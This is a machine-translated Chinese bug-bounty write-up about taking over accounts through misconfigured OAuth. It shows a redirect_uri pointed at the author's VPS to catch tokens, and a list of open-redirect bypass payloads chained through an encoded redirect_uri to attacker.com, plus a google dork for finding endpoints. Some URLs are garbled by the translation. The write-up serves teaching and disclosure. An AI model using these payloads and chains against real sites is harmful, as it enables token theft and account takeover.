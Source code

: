 # 利用错误配置的 OAuth 接管帐户

> 原文：<https://infosecwriteups.com/exploiting-misconfigured-oauth-to-takeover-accounts-225a367bca43?source=collection_archive---------0----------------------->

嗨，在这篇文章中，我将讨论我在查找 bug 时发现的两个错误配置的 OAuth 缺陷，废话不多说，让我们开始吧。

**1)没有验证 redirect_uri 参数**

在浏览应用程序时，我注意到用户可以选择将他们的社交媒体帐户连接到应用程序，这显然是使用 OAuth 完成的。

我开始寻找 OAuth 实现中的 bug，很快发现`state`参数不见了。

对于那些不知道`state`参数的人来说，可以把它想象成一个防止 CSRF 攻击的 CSRF 令牌。

在 OAuth 的情况下，缺少`state`参数可能会导致帐户被接管。它使攻击者能够在应用程序上将他的社交媒体帐户连接到受害者的帐户，并最终接管他的帐户。

如果您不熟悉 OAuth flow，我强烈建议您先了解一下。

![](img/084f05dfe6fbf5e06802bca858d1ce18.png)

来源:PortSwigger

> 攻击场景
> 
> 1.攻击者在此应用程序上创建一个帐户，并通过连接其社交媒体帐户启动 OAuth 流。
> 
> 2.他允许 OAuth 提供者与客户机应用程序共享数据。
> 
> 3.OAuth 提供者用包含代码的重定向进行响应。
> 
> 4.攻击者没有使用此代码来链接其社交媒体帐户，而是保存它并将带有代码的链接发送给受害者，或者在网站上嵌入 iframe 并将链接发送给受害者。(请看流程中的第三步，一个带有代码的请求被发送到回调端点)
> 
> 5.当受害者访问该网站时，攻击者的社交媒体帐户与受害者在客户端应用程序上的帐户相链接。
> 
> 6.攻击者可以使用受害者链接的社交媒体帐户登录受害者的帐户，然后更改电子邮件或做他想做的任何事情。

我在 burp 中查看了请求的历史记录，结果发现客户端应用程序在请求中发送了一个带有令牌的自定义 auth 头，其中包含链接社交媒体帐户的代码，这使得它无法被 CSRF 攻击利用。

```
X-AUTH: 12345678909876543210
```

我寻找了所有不同社交媒体提供商的 OAuth 实现，它们都是一样的，它没有使用`state`参数，但连接帐户的最终请求有一个自定义的 Auth 头，带有一个防止 CSRF 攻击的令牌。

我从我的帐户注销，它将我重定向到登录页面，在那里我注意到用 XYZ 按钮登录，我检查了 OAuth 提供者之一上的 OAuth 实现，它被正确配置。我检查了另一个，它有一个不同的实现。它会向`api`端点(在客户端应用程序上)发送一个请求以及一个`*redirect_uri*` 参数，然后使用这个`redirect_uri`来启动 OAuth 流。

[https://client-app.com/api/oauth-provider?redirect _ uri = https://client-app . com/log in](https://client-app.com/api?redirect_uri=https://client-app.com/login)

向`redirect_uri`提供任意域名似乎有效。

[https://client-app.com/api/oauth-provider?redirect _ uri = https://attack . com](https://client-app.com/api/oauth-provider?redirect_uri=https://attacker.com)/

我登录我的 VPS 并运行 python 的`*SimpleHTTPServer*` 来检查`*redirect_uri*`参数是否可以被利用来窃取令牌

```
python -m SimpleHTTPServer 8080
```

在 python 3 中，这将是

```
python3 -m http.server 8080
```

我提供了我的 VPS 的 IP 和令牌显示在日志中

[https://client-app.com/api/](https://client-app.com/api?redirect_uri=http://123.123.123.123:8080/)oauth-providerT21？redirect _ uri = http://123 . 123 . 123 . 123:8080/

我试着用这个偷来的令牌登录，成功了！我登录了受害者的账户。

[https://client-app.com/login/{token}](https://client-app.com/login/{token})

如果你没有 VPS 或任何网站来记录进入的流量，你可以简单地使用[requestbin.com](https://requestbin.com/)来实现这些目的。

需要注意的事项:

1.  没有对`redirect_uri`参数的服务器端验证。
2.  只有当受害者与 OAuth 提供者有一个活动的会话，并且已经将他的帐户与他们链接时，这才会起作用。

**2)利用开放重定向漏洞窃取令牌**

这是在另一个应用程序上，我在寻找 OAuth 实现中的错误。在测试中，`*state*`参数，`*redirect_uri*`验证和一切似乎都没问题。

在这个应用程序上花了一些时间并浏览了其他功能后，我发现了一个引起我注意的端点，因为它有`r_url`(重定向)参数

https://example.com/endpoint/r_url/{domain

向`r_url`供应[google.com](https://google.com)

[https://example.com/endpointr_url/google.com](https://example.com/endpointr_url/google.com)将重定向至 google.com

我试图供应 attacker.com，以检查它是否重定向到 attacker.com，但它没有工作。

[https://example.com/endpoint/r_url/attacker.com](https://example.com/endpoint/r_url/attacker.com)

我试着给 example.com 供货

https://example.com/endpoint/r_url/example.com 成功了。它允许 google.com，但不允许 attacker.com

我尝试了各种技术来绕过`r_url`的验证

```
[https://example.com/endpoint/r_url](https://example.com/endpoint?r_url=)//attacker.comDidn’t work.[https://example.com/endpoint/r_url\/attacker.com](https://example.com/endpoint/r_url/attacker.com)Didn’t work.[https://example.com/endpoint/r_url\/\/attacker.com](https://example.com/endpoint/r_url/attacker.com)Didn’t work.[https://example.com/endpoint/r_url\\attacker.com](https://example.com/endpoint/r_url/attacker.com)Didn’t work.[https://example.com/endpoint/r_url/\/attacker.com](https://example.com/endpoint/r_url/attacker.com)Didn’t work.[https://example.com/endpoint/r_url/example.com.attacker.com](https://example.com/endpoint/r_url/example.com.attacker.com)Didn’t work.[https://example.com/endpoint/r_url/notexample.com](https://example.com/endpoint/r_url/notexample.com)Didn’t work.[https://example.com/endpoint/r_url/example.com@attacker.com](https://example.com/endpoint/r_url/example.com@attacker.com)This one worked and I was redirected to attacker.com.
```

现在大多数人犯的错误是他们发现开放重定向并试图报告它(大多数程序甚至不考虑它们),而不是报告开放重定向，在某个地方记下它并寻找链接它的方法。

我回去测试 OAuth 实现，它发送了一个请求，看起来像这样

[https://oauth-provider.com/login?client_id=12345678&重定向 _uri=https://example.com](https://oauth-provider.com/login?client_id=12345678&redirect_uri=https://example.com)

正如我之前测试的那样，我知道它已经正确配置并且`redirect_uri`不能被绕过，但是如果我们重定向到重定向到攻击者的域的同一应用程序上的页面呢？

这个想法是利用新发现的开放重定向漏洞，将受害者重定向到攻击者控制的域。

我试过这个。

[https://oauth-provider.com/login?client_id=12345678&redirect _ uri = https://example . com/endpoint/r _ URL/example . com @ attack . com](https://oauth-provider.com/login?client_id=12345678&redirect_uri=https://example.com/endpoint/r_url/example.com@attacker.com)

但是没有用。

编码`redirect_uri`参数值的 URL

【https://oauth-provider.com/login?client_id=12345678&T2 redirect _ uri = https % 3A % 2F % 2f example . com % 2f endpoint % 2Fr _ URL % 2f example . com % 40 attack . com

而且成功了。

我用 google dork 又找到了一个带`r_url`的端点，这个也帮我链接了。

```
site:program.com inurl:r_url
```

(提示:谷歌是你最好的朋友，明智地使用它来寻找有趣的端点/参数)

这是可能的，因为`redirect_uri`被配置为允许*** . example . com/***(example.com 上的任何页面或其子域名)

在这种情况下，开放重定向缺陷有点像帮助攻击者窃取令牌的中介或代理。

我检查了传入流量日志，发现令牌耐心地等待着我。

我希望你喜欢读这篇文章，如果你有任何问题，请随时在 Twitter @ [0xAkash](https://twitter.com/0xAkash) 上给我发信息。